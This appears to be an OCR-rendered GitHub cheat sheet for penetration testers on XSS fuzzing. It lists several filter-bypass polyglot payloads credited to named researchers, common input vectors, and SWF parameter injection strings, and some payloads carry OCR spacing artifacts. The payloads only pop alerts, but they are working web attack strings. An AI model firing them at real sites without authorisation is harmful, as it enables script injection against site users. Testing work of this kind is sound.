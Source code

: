 # ￼￼￼Tactical Fuzzing - XSS

## XSS
Core Idea: Does the page functionality display something to the users?
For time sensitive testing the 80/20 rule applies. Many testers use Polyglot payloads. You probably have too!

### *Multi-context, filter bypass based polyglot payload #1 (Rsnake XSS Cheat Sheet)

```
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
```



### Multi-context, filter bypass based polyglot payload #2 (Ashar Javed XSS Research)

```
 
">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg"> 

￼￼```

### Multi-context polyglot payload (Mathias Karlsson)

```

" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//

```

###￼ Other XSS Observations

Input Vectors:
- Customizable Themes & Profiles via CSS
- Event or meeting names
- URI based
- Imported from a 3rd party (think Facebook integration)
- JSON POST Values (check returning content type)
- File Upload names
- Uploaded files (swf, HTML, ++)
- Custom Error pages
- fake params - ?realparam=1&foo=bar’+alert(/XSS/)+’
- Login and Forgot password forms

## SWF Parameter XSS

Common Params:
onload, allowedDomain, movieplayer, xmlPath, eventhandler, callback (more on OWASP page)

Common Injection Strings:￼

```

\%22})))}catch(e){alert(document.domain);}//

```

```

"]);}catch(e){}if(!self.a)self.a=!alert(document.domain);//

```


```

"a")(({type:"ready"}));}catch(e){alert(1)}//

```
